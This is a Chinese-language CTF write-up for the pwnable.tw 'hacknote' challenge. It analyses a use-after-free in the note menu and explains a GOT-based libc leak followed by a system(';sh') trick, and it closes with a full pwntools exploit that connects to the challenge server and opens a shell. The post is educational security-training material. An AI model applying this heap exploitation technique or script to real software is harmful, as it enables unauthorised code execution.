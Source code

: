 ```yaml
---
Layout: Post
title: pwnable.tw hacknote
date: 2022-09-01 15:04:01
tags: pwnable.tw
---
```


UAF，以及发现了使用 `system()` 的小技巧。

## 程序分析

保护：

```txt
[*] '/home/nss/Desktop/pwnable.tw/hacknote/hacknote'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8047000)
```

作为一个菜单题，本题菜单如下：

```txt
----------------------
       HackNote       
----------------------
 1. Add note          
 2. Delete note       
 3. Print note        
 4. Exit              
----------------------
```

**Add note：**
申请一个0x16的区块（`malloc(0x8)`）和一个用户决定大小的区块(`malloc(size)`)，我将其称为**控制区块**和**用户区块**。
在控制区块的8字节用户可用空间中，分别塞入一个函数地址、和用户区块的地址。
然后进行 `read(0, malloc(size), size)`，允许用户输入内容至用户区块。

在一个固定地址（`0x0804a050`），存放着一个指针数组，用来存储历次分配产生的控制区块的地址。
为了防止溢出，程序在每次add note时都会先检查全局变量note_count（自己取的名），并且在分配成功后让note_count++。最多可以分配5个区块。

**Delete note：**
输入index，将对应的用户数组和控制数组释放（注意先后顺序）。
但这里并不会让note_count--，也不会从全局指针数组中删除控制区块。**只会free而已。**

**Print note：**
输入index，将对应控制区块的用户可用空间地址压栈（也就是函数的指针的地址），调用对应控制数组存放的函数（该函数会将arg0加4后作为一个 `char*` 调用 `puts` 输出）。

## 漏洞分析

本题没有buffer overflow（都是调用read完成），也没有栈上的漏洞。
唯一的漏洞在于UAF——**程序在使用delete note来free区块之后，依然能够使用print note来使用对应区块存放的数据（具体来说，调用存放的函数指针）。**

所以只需要构造一下，使得**已经被释放的控制区块被分配作用户区块**，这样就可以在控制区块中写入信息，控制控制流。

## 利用 Exploitation

我先随意 `add_note` 两次并释放之，两个原控制区块都被 `free` 到fast bin中。然后再 `add_note(8)`，那么此时原来的两个控制区块，一个被用作新的控制区块，另一个被用作了用户区块。

这时，我往用户区块中塞入两个4Bytes：一个是程序特化的打印函数，会把参数当作地址+4后，调用 `puts` 函数打印之；还有一个是got表中 `puts` 的地址（这里任意got表中函数都可以）。
然后调用print note，这样程序就会把got表中 `puts` 的地址打印出来，那么libc基地址就有了。

之后可以故技重施，再把那两个受害者区块 `free` 再 `malloc` ，此时再往用户区块中塞入两个4Bytes：一个是 `system()` 地址，**另一个是 `b'sh\x00'`**。
由于print note会把对应控制区块的用户可用空间压栈，也就是此时的 `&system()`，所以实际上我执行的是 `system(pack(system()) + ";sh")`，**通过分号来bypass前四个字节的不可打印字符**。

（除该技巧外，别的部分早就想出来了，就该技巧卡了好久，最后看网上wp学到了……）

EXP如下：

```python
from pwn import *
context.arch='i386'
# context.log_level='debug'

filename="./hacknote"
io = process([filename])
elf=ELF(filename)

libc_name="libc_32.so.6"
libc=ELF(libc_name)

def add_note(size, data):
    io.recvuntil(b'Your choice :')
    io.sendline(b'1')
    io.recvuntil(b'Note size :')
    io.sendline(str(size).encode('ascii'))
    io.recvuntil(b'Content :')
    io.send(data)

def delete_note(index):
    io.recvuntil(b'Your choice :')
    io.sendline(b'2')
    io.recvuntil(b'Index :')
    io.sendline(str(index).encode('ascii'))

def print_note(index):
    io.recvuntil(b'Your choice :')
    io.sendline(b'3')
    io.recvuntil(b'Index :')
    io.sendline(str(index).encode('ascii'))

io = remote("chall.pwnable.tw", 10102)

# leak libc_addr (using got["puts"], but actually all got[*] will work as same)
add_note(32, b'/bin/sh')
add_note(32, b'111')
delete_note(0)
delete_note(1)
add_note(8, pack(0x804862b)+pack(elf.got["puts"]))
print_note(0)
# calculate libc_addr
mes = io.recvuntil(b'HackNote')
libc_base = unpack(mes[0:4]) - libc.symbols["puts"]
print(hex(libc_base))

# system(b'\x??'*4 + b';sh\x00')
delete_note(2)
add_note(8, pack(libc_base+libc.symbols["system"])+b';sh\x00')
print_note(0)

io.interactive()
```
